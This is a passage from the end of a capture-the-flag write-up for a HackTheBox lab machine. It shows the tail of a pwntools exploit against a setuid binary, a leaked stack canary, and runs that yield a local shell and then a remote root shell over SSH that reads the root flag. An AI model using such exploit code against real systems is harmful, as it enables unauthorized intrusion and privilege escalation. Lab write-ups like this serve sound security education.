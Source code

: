     p.sendline(payload)
    # clear message
    p.readuntil(b"Invalid username or password.")
    # reset path cleared by binary
    p.sendline(b"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin")
    p.interactive(prompt=prompt)
    

Running this locally gives a shell:

    
    
    oxdf@hacky$ python sploit.py
    [*] '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    [+] Starting local process '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli': pid 778049
    [*] Leak canary: 0x16285182807784140032
    [*] Switching to interactive mode
    
    $ id
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),115(netdev),123(nopasswdlogin),141(docker),999(vboxsf)
    

If I give it the `SSH` argument, it works remotely:

    
    
    oxdf@hacky$ python sploit.py SSH
    [*] '/media/sf_CTFs/hackthebox/drive-10.10.11.235/doodleGrive-cli'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    [+] Connecting to drive.htb on port 22: Done
    [*] tom@drive.htb:
        Distro    Ubuntu 20.04
        OS:       linux
        Arch:     amd64
        Version:  5.4.0
        ASLR:     Enabled
    [+] Starting remote process bytearray(b'/home/tom/doodleGrive-cli') on drive.htb: pid 1743058
    [*] Leak canary: 0x11875039814129743360
    [*] Switching to interactive mode
    
    # id
    uid=0(root) gid=0(root) groups=0(root),1003(tom)
    # cat /root/root.txt
    641e7a5b************************
    

[](/2024/02/17/htb-drive.html)

